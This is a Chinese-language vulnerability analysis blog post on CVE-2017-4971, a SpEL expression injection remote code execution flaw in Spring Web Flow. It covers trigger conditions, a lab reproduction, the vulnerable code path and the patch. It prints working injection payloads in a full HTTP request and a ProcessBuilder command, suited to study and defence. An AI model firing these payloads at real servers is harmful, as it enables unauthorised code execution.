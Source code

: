 ```yaml
---
title: 【漏洞分析】Spring Web Flow框架远程代码执行(CVE-2017-4971)
date: 2017-07-18 23:03:05
categories: Web安全
tags:
    - JAVA
    - RCE
---
```


## 漏洞简介

**漏洞是由于Spring Web Flow的数据绑定问题带来的表达式注入，从而导致任意代码执行。** Spring Web Flow是Spring的一个子项目，主要目的是解决跨越多个请求的、用户与服务器之间的、有状态交互问题，提供了描述业务流程的抽象能力，具体可以参考[Spring Web Flow 2.0 入门](https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html)。

<!-- more -->

**触发漏洞需要满足两个条件：**

* `MvcViewFactoryCreator` 对象的`useSpringBeanBinding` 参数需要设置为`false `（默认值）。
* flow `view`对象中设置`BinderConfiguration`对象为空

**影响版本：**

* Spring Web Flow 2.4.0 to 2.4.4
* Older unsupported versions are also affected

## 漏洞复现

漏洞测试源码为 [https://github.com/spring-projects/spring-webflow-samples/tree/master/booking-mvc](https://github.com/spring-projects/spring-webflow-samples/tree/master/booking-mvc)， 来源于Spring Web Flow官方的Example中的例子，booking-mvc中的某个流满足漏洞触发的条件

* flow `view`对象中设置`BinderConfiguration`对象为空

path: src/main/webapp/WEB-INF/hotels/booking/booking-flow.xml
{% asset_img 003.png %}
可以看出booking model中的confirm没有设置binder，也就是说在confirm阶段是可以触发漏洞的。

* `useSpringBeanBinding` 参数设置为`false `
  参数默认是false, 但是在官方例子中设置为`true`了, 需要改源码如下:

path: src/main/java/org/springframework/webflow/samples/booking/config/WebFlowConfig.java
{% asset_img 004.png %}
修改源码后，部署环境，然后访问，随便选取一个酒店进行预定。
{% asset_img 001.png %}

预定第二步拦截确认请求，增加post参数`_T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("vulnerable","True").aaa=n1nty`如下，返回响应头中包含`vulnerable: True`, 验证漏洞。

```
POST /hotels/booking?execution=e1s2 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 203
Referer: http://127.0.0.1:8080/hotels/booking?execution=e1s2
Cookie: JSESSIONID=BF4269E94E8F9108D72B2FB9864C6E53
Connection: close
Upgrade-Insecure-Requests: 1

_eventId_confirm=&_csrf=92a961cd-69f5-4436-8834-a9b1e33ca87a&_T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("vulnerable","True").aaa=n1nty

HTTP/1.1 302 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-store
Pragma: 
Expires: 
X-Frame-Options: DENY
vulnerable: True
Location: /hotels/search
Content-Length: 0
Date: Tue, 18 Jul 2017 06:23:18 GMT
Connection: close
```

弹个计算器试试, payload:
`_(new+java.lang.ProcessBuilder("/usr/bin/open", "/Applications/Calculator.app")).start()=iswin`
{% asset_img 002.png %}

## 漏洞流程

view对象处理用户事件，会根据HTTP参数绑定相应的model。
{% asset_img 005.png %}

如果model没有设置`BinderConfiguration`, 则会调用`addDefaultMappings`函数。
{% asset_img 006.png %}

进一步查看`addDefaultMappings`函数，可以发现输入参数以`fieldMarkerPrefix`("_")开头，则会调用`addEmptyValueMapping`函数。
{% asset_img 007.png %}

若`useSpringBeanBinding`参数设置为`false`,则 `expressionParser`将设置为`SpelExpressionParser `对象的实例，而不是`BeanWrapperExpressionParser `对象的实例。当调用`getValueType`函数时，`SpelExpressionParser `对象将执行表达式，触发任意代码执行。
{% asset_img 008.png %}

## 补丁分析

从补丁可以看出，直接将`ExpressionParser`设置为`BeanWrapperExpressionParser`对象的实例， 默认是执行不了表达式的。
{% asset_img 009.png %}

## Ref

* [CVE-2017-4971: Remote Code Execution Vulnerability In The Spring Web Flow Framework](https://blog.gdssecurity.com/labs/2017/7/17/cve-2017-4971-remote-code-execution-vulnerability-in-the-spr.html)
* [CVE-2017-4971：Spring WebFlow 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3963.html)
* [Spring Web Flow 2.0 入门](https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html)
* [Spring 表达式语言 (SpEL)](http://spring.cndocs.tk/expressions.html)